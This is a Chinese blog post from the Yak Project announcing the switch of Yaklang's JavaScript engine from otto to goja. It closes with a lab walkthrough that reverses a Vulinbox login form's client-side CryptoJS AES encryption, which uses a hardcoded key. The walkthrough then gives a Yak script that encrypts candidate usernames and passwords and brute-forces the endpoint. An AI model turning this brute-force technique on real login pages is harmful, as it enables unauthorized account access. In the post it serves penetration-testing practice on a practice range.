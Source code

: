 #  上新！更强大的JS引擎：goja   
原创 Lonelone  Yak Project   2024-04-25 17:30  
  
![](/articles/wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
![](/articles/wechat2md-01c1c684e6a259dea97dd828d8543ec7.gif)  
  
  
## **前言**  

一直以来，Yaklang引擎使用 robertkrimen/otto （**以下简称otto**）作为 JavaScript 解释器以执行一些 JavaScript 代码。然而，最近用户提出的许多新需求在使用 otto 这个第三方库时遇到了一些问题，其主要原因是因为 otto 的语法树解析实现存在一些问题，因此在遇到一些执行压缩过后的 JavaScript 第三方依赖（如常见的CryptoJS）时会出现解析错误。  
  
为了解决这个问题，也为了完善用户的体验，我们决定使用 **dop251/goja** （**以下简称为 goja** ）这个第三方库来代替 otto 这个库，让 otto 这个库光荣退休。  
> otto: 我不是退役了 我只是没人要  
  
## **为什么选择 goja**  
  
选择 **goja**的原因有很多，列出主要的几点：  
- 完整的 ECMAScript 5.1 实现（甚至有不完整的ECMAScript 6.0 实现）  
  
- 通过了大部分的 tc39 tests，这是官方的 ECMAScript 一致性测试套件  
  
- 比 otto 的平均速度快6~7倍  
  
  
  
## **几乎一致性的API**  
  
对于yaklang语言的用户来说，此次升级是几乎无感知的，在升级的同时确保了 80% 的API无变动，但由于底层实现不尽相同，因此可能会存在某些不常用的函数（如js.ASTWalk，js.GetSTType）以及结构体方法（如Value）会存在某些差异，对此库用户的影响控制在合适的范围内。  
  
  
## **全新的内置第三方JavaScript依赖API**  
 
此次升级的一个重要点在于为了解决使用某些常用 **JavaScript**第三方依赖（如上文提到的 **CryptoJS**）的问题。通过新的API，我们可以快速地使用这些 **JavaScript**第三方依赖，而省略编译的过程（初次编译之后会进行缓存，之后不再需要进行编译）。  
  
一个简单的使用**CryptoJS V3**的例子如下：  
```
_, value = js.Run(`
    CryptoJS.HmacSHA256("Message", "secret").toString();
 `, js.libCryptoJSV3())~
 println(value.String())
```  
## **实战案例**    
以 **Yakit** 自带的 **Vulinbox**靶场其中的高级前端加解密与验签实战 - CryptoJS.AES(CBC) 前端加密登陆表单为例，讲解一下如何使用升级后的 js 库。如何安装与启动 **Vulinbox**靶场这里不再赘述。靶场详细参考此文[【文末抽奖】Yak叫你来打靶了](http://mp.weixin.qq.com/s?__biz=Mzk0MTM4NzIxMQ==&mid=2247512304&idx=1&sn=dc1f3b3119309c495f1bd438b6b8b059&chksm=c2d1cc54f5a645420b1a075484b3f444d4b29736b7aa32265c877ba1a45620fdf04fcd9d7cda&scene=21#wechat_redirect)  
   
网站页面如下：  
  
![](/articles/wechat2md-82dafeff9bdc72ca6c35d609d98398fd.png)  
  
打开网站后，我们查看其页面源代码，观察前端是如何对数据进行加密的，主要核心代码如下：  
```
var iv = CryptoJS.lib.WordArray.random(128/8);

function generateKey() {
    return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
}

const key = generateKey()

// 加密方法
function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData() {
    return {
        "username": document.getElementById("username").value,
        "password": document.getElementById("password").value,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

function submitJSON(event) {
    event.preventDefault();

    const url = "/crypto/js/lib/aes/cbc/handler";
    let jsonData = getData();
    let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
    // 使用submitResult请求后台接口...
}

document.getElementById("json-form").addEventListener("submit", submitJSON)
```  
  
简单分析知道，其最后请求的请求体是 **submitResult**这个变量，这是一段JSON，包含了 **data**, **key**, **iv**三个属性，其中 key 是固定的，iv 是随机生成的。虽然 iv 是随机生成的，但是并不影响我们进行爆破，我们可以同样生成一个新的iv或者使用页面的iv也可。  
  
最后我们提炼出以下代码，基本上直接复制上述的js代码稍作修改即可使用：   
```
// 注意这里我们不能直接复制 key 的赋值代码，这是因为 ECMAScript 5.1 不支持 const 关键字
key = CryptoJS.enc.Utf8.parse("1234123412341234");
iv = CryptoJS.lib.WordArray.random(128/8);

function Encrypt(word) {
    console.info(word);
    return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
}

function getData(username, password) {
    return {
        "username": username, 
        "password": password,
    }
}

function outputObj(jsonData) {
    const word = JSON.stringify(jsonData);
    return {
        "data": Encrypt(word),
        "key": key.toString(),
        iv: iv.toString(),
    }
}

jsonData = getData("username", "password"); // 这里填写爆破的用户名和密码
submitResult = JSON.stringify(outputObj(jsonData), null, 2);// 最后发送的请求体

```  
  
最终我们编写了一段简单的 Yak 代码，用于对此题进行爆破：  
```
for user in ["user", "admin"] {
    for pass in ["pass", "123456"] {
        vm, _ = js.Run(`
        key = CryptoJS.enc.Utf8.parse("1234123412341234");
        iv = CryptoJS.lib.WordArray.random(128/8);

        function Encrypt(word) {
            return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
        }

        function getData(username, password) {
            return {
                "username": username, 
                "password": password,
            }
        }

        function outputObj(jsonData) {
            const word = JSON.stringify(jsonData);
            return {
                "data": Encrypt(word),
                "key": key.toString(),
                iv: iv.toString(),
            }
        }

        jsonData = getData(%#v, %#v);
        submitResult = JSON.stringify(outputObj(jsonData), null, 2);` % [user, pass], js.libCryptoJSV3())~

        body = vm.Get("submitResult").String()

        rsp, _ = poc.Post("http://127.0.0.1:8787/crypto/js/lib/aes/cbc/handler", poc.replaceBody([]byte(body), false))~
        println(string(rsp.RawPacket))
    }
}
```  
  
![](/articles/wechat2md-290a7e3105ce58757542a21da3db5eb2.png)  
  
响应中显示解密前端内容成功，这证明我们已经成功将请求体进行加密，可以用于爆破，后续只需要在for循环填入需要爆破的用户名密码即可。  
  
  
**END**  
  
  
  
 **YAK官方资源**  
  
  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit   
视频教程：  
https://space.bilibili.com/437503777Github  
下载地址：  
https://github.com/yaklang/yakitYakit  
官网下载地址：  
https://yaklang.com/Yakit  
安装文档：  
https://yaklang.com/products/download_and_install  
Yakit使用文档：  
https://yaklang.com/products/intro/  
常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-85062b6e6c63b9d9d17d1e2a5ca2ec01.other)  
长按识别添加工作人员
开启Yakit进阶之旅  
![](/articles/wechat2md-14665f86963c7c123b43378ebc55bb0f.other)
  
  
